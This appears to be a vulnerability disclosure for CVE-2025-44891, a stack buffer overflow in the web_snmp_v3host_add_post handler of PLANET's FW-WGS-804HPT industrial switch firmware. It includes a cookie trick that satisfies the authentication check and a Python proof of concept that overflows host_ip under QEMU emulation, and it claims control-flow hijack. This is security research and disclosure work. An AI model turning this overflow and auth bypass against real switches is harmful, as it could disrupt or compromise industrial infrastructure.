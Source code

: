 ```yaml
---
title: web_snmp_v3host_add_post_host_ip
date: 2025-04-20 17:10:21
tags: cve
---
```






**Affected Product**: FW-WGS-804HPT

**Affected Firmware Versions**:  v1.305b241111

**Vulnerability Type**: Buffer Overflow

**CVE Identifier**: CVE-2025-44891



# FW-WGS-804HPT_v1.305b241111 introduced

The WGS-804HPT-V2 is a ruggedized industrial-grade Ethernet switch designed for harsh environments and mission-critical applications. As part of PLANET Technology's Industrial Automation Series, this 8-port managed switch combines Power over Ethernet (PoE+) capabilities with industrial durability, making it ideal for building automation, smart infrastructure, and IoT deployments.



Official Product Page: https://www.planet.com.tw/en/product/wgs-804hpt-v2



# web_snmp_v3host_add_post_host_ip

 I discovered a  stack overflow vulnerability in the Planet router.

By analyzing the dispatcher file in the bin directory, I found that the function web_snmp_v3host_add_post  contains a stack overflow vulnerability.

The stack overflow can be triggered by host_ip value, which leads to a strcpy stack overflow.

![image-20250321152223389](../res/202503211522484-17451404714228.png)

In the main function, there is an account authentication detection. We create a cookie_0 in the tmp directory, with the content of "20 0 0", and its function is to create a cookie with sufficient permissions to access this route.

```json
20 0 0
```



![image-20250417143022328](../res/image-20250417143022328-174487142407317.png)





![image-20250417143108889](res/image-20250417143108889-174487146997818.png)



Through IDA, it can be seen that the stack space is 0x2f8

﻿The content of the **poc**.py file is as follows:

```json
import os


a =0x100C
var_name = "host_ip"
b = 'a' * 0x600
c = "tacIdx=111111"

poc_content = f"&cmd={a}&{var_name}={b}&{c}"
with open('poc', 'w') as f:
    f.write(poc_content)

command = (
    "sudo chroot . ./qemu-mips-static "
    "-E REQUEST_METHOD=POST "
    "-E HTTP_COOKIE='hid=0' "
    "-L ./lib "
    "-g 1234 "
    "./dispatcher.cgi "
    "< poc"  
)


os.system(command)

```

# Attack result

![image-20250417143155909](../res/image-20250417143155909-174487151680819.png)

![image-20250417143247143](../res/image-20250417143247143-174487156822920.png)



Through the above image, we can see that we have overflowed to 0x264 and successfully hijacked the control flow. If necessary, more can be overflowed.
